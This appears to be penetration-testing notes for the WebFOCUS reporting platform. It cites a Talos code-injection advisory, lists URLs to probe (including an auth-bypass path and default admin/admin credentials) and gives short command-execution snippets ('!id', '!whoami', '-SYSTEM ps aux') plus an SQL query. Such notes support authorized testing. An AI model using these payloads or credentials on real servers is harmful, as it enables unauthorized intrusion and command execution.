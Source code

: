 # WebFOCUS

WebFocus: http://infocenter.informationbuilders.com/wf81rel/index.jsp 
 
### Vulnerabilities
 
From https://www.talosintelligence.com/vulnerability_reports/TALOS-2017-0315:
*Code injection is achieved on the following URL: `/ibi_apps/WFServlet`
By successfully injecting WebFOCUS code on this URL parameter while properly completing the expected syntax, an attacker can leverage the "! " statement of WebFOCUS which allows for system commands to be executed via the reporting module code.*
 
### URLs to test
 
| URL | Result|
|-----|-------|
|/ibi_apps/bid | Access to the main interface - might bypass other auth restrictions|
|/ibi_apps |To test if WebFOCUS is available, default creds of admin/admin|
|/ibi_apps/ibi_html | TOC Report?|
|/ibi_help|Help page|
|/ibi_apps/rs?IBIRS_action=TEST | The RESTful Web Services Test Page |
|/ibi_apps/WFServlet?IBFS1_action=TEST|The RESTful Web Services Test Page|
|/ibi_apps/rs/ibfs?IBRS_action=privileges| Should list available privileges|
|/ibi_apps/rs?IBIRS_action=get&IBIRS_path=/WFC/Repository&IBIRS_service=ibfs|Should list some folders?|
|/ibi_apps/rs/ibfs/WFC/Repository?IBIRS_action=get|Same as above ?|
|/ibi_apps/rs/ibfs/EDA?IBIRS_action=get|This RESTful web service request can be used to list the Reporting Server nodes that are available to WebFOCUS.|
|/ibi_apps/rs/ibfs/EDA/NodeName?IBIRS_action=get|List the applications running on a node (Nodes can be found from the query above this)|
|/ibi_apps/rs/ibfs/EDA/NodeName/AppName?IBIRS_action=get|List the files within an application - relpace NodeName and AppName|
 
 
### Script Notes
 
A minimum script needed. It throws errors but still executes
 
**Command Execution**
```
-SYSTEM ps aux
!ps aux
!id
!whoami
!/sbin/ifconfig -a

-RUN
```	

**SQL**
``` 
- SET &ECHO=ALL

SET SQLENGINE=SQLORA
ENGINE SQLORA

	SELECT user FROM dual

END

-RUN
```

### References
 
Documentation: 
- https://techsupport.informationbuilders.com/public/tc-library.html#collapseOne
- http://documentation.informationbuilders.com
 
REST authentication:
- http://infocenter.informationbuilders.com/wf8104/topic/pubdocs/REST_WebServices/source/topic12.htm
- http://documentation.informationbuilders.com/wf77x.asp

